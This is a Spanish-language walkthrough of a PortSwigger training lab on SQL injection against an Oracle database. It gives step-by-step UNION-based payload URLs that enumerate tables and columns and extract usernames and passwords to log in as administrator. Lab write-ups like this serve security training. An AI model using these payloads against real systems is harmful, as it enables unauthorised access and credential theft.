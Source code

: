 ```yaml
---
title: SQLI Lab 6
date: 2024-11-15 12:36:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQL injection attack, listing the database contents on Oracle
  - SQLI (Error Based)
  - Oracle Database
image:
  path: /assets/img/SQLI-Lab-6/Portswigger.png
---
```


## Skills

- SQL injection attack, listing the database contents on Oracle

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que hay que usar un `ataque UNION` para recuperar datos de otras `tablas`. La aplicación tiene una `función` de `inicio` de `sesión`, y la `base` de `datos` contiene una `tabla` que almacena `nombres` de `usuario` y `contraseñas`. Determinamos el `nombre` de esta `tabla` y las `columnas` que contiene, luego `recuperamos` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los `usuarios`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-6/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-6/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-6/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-6/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Lifestyle'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-6/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Lifestyle'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir tres columnas nos arroja un fallo

```
/filter?category=Lifestyle'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, usamos `from dual` debido a que estamos ante una base de datos `Oracle`

```
/filter?category=Lifestyle'+union+select+null,null+from+dual--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Lifestyle'+union+select+null,banner+from+v$version--+-+
```

![](/assets/img/SQLI-Lab-6/image_6.png)

`Listamos` el `nombre` de todos los propietarios

```
/filter?category=Lifestyle'+union+select+null,owner+from+all_tables--+-+
```

![](/assets/img/SQLI-Lab-6/image_7.png)

`Listamos` el `nombre` de la `base` de `datos` en uso

```
/filter?category=Lifestyle'+union+select+null,global_name+from+global_name--+-+
```

![](/assets/img/SQLI-Lab-6/image_8.png)

`Listamos` las `tablas` cuyo `propietario` es `PETER`

```
/filter?category=Lifestyle'+union+select+null,table_name+from+all_tables+where+owner='PETER'--+-+
```

![](/assets/img/SQLI-Lab-6/image_9.png)

`Listamos` las `columnas` de la tabla `USERS_NWMYAE`

```
/filter?category=Lifestyle'+union+select+null,column_name+from+all_tab_columns+where+table_name='USERS_NWMYAE'--+-+
```

![](/assets/img/SQLI-Lab-6/image_10.png)

`Obtenemos` el contenido de las columnas `PASSWORD_NDAIAQ` y `USERNAME_SDYBVL`

```
/filter?category=Lifestyle'+union+select+PASSWORD_NDAIAQ,USERNAME_SDYBVL+from+USERS_NWMYAE--+-+
```

![](/assets/img/SQLI-Lab-6/image_11.png)

Una vez obtenida la contraseña del usuario `administrator` podemos `loguearnos`

![](/assets/img/SQLI-Lab-6/image_12.png)
